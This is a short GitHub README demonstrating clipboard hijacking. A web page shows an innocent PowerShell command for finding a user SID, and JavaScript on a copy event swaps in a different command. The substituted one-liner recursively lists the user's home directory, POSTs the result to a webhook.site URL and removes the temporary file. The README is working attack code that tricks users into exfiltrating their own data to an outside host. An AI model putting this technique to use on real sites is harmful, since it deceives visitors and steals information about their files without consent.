


# JavaScript-Clipboard-Manipulation
 Art of Deception: Manipulate clipboard when doing copy via JavaScript

## Set id on the part which you want the user to falls to the copy clipboard manipulation
```
<div class="col-sm-5">
    <h2>How to Get User SID in Powershell (COPY ME Value!)</h2>
    <p id='copy'>Get-ItemProperty -path "HKLM:\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\ProfileList\*" | select ProfileImagePath,PSChildName</p>
</div>
```

## Create a Javascript to set a listener on the id & manipulate the clipboard <br>
<b>Note: The Powershell Command will first get the directory lists, then make a POST request to webhook & remove the leftover trace</b>
```
<!-- Copy clipboard Manipulation-->
<script type="text/javascript">
    document.getElementById('copy').addEventListener('copy', function(e) {
        e.clipboardData.setData('text/plain', 'Get-ChildItem -recurse $HOME > tmp; Invoke-WebRequest -Method POST -InFile .\\tmp https://webhook.site/4ab2a160-8f9d-42f8-81e3-6f94f7f62357; rm .\\tmp')
        e.preventDefault()
    })
</script>
```

## Image on how it looks like on the website & the value copied in clipboard 





## Template Used: 
https://www.free-css.com/free-css-templates/page274/agency-perfect